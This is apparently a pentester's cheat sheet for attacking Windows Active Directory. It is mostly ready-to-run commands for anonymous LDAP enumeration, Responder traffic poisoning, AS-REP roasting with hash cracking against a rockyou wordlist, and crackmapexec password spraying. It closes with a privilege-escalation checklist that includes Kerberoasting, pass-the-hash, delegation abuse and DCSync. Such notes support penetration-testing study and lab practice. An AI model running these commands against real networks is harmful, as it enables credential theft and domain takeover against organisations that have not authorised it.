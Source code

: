 ```bash
ldapsearch -x -h <IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TDL>"
```

#### Responder for poisoning or MITM:

```bash
sudo responder -I tun0
```

**Once we have usernames but no passwords:**

* AS-REP Roasting
* Password Spray with crackmapexec.

#### AS-REP Roasting and Cracking:

{% code overflow="wrap" %}
```bash
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast

python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast

Get-DomainUser -PreauthNotRequired -verbose #for powerview

john --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast #crack hash
```
{% endcode %}

#### Password Spraying:

```bash
crackmapexec smb/ldap/winrm -u users.txt -p <password> <IP>
```

Apart from these steps, check for web vulnerabilities and Windows SMB related exploits such as EternalBlue or something.

Once we have access to this, we can either:

* Regular Windows PE
* AD-related PE.

Generally, once I complete all of these AD-related Enumerations, I should have gotten access. Otherwise, I would refer to other checklists and begin again.

## **Privilege Escalation**

* Attempt Bloodhound
* Check kerberos tickets in memory.
  * Kerberoast and crack the passwords
  * Else, we can pass the ticket/hash to authenticate to other users.
* Dump and pass hashes for remote authentication or to request more tickets.
  * Password spraying of all the hashes we find.
* Pass the ticket for authentication.
* Check AS-REP vulnerabilities for users in domain on DC or other clients.
* Unconstrained delegation
* Constrained Delegation
* ACL Abuse:
  * GPO Abuse
  * ACL Misconfiguration
  * DCSync
* PrintSpooler
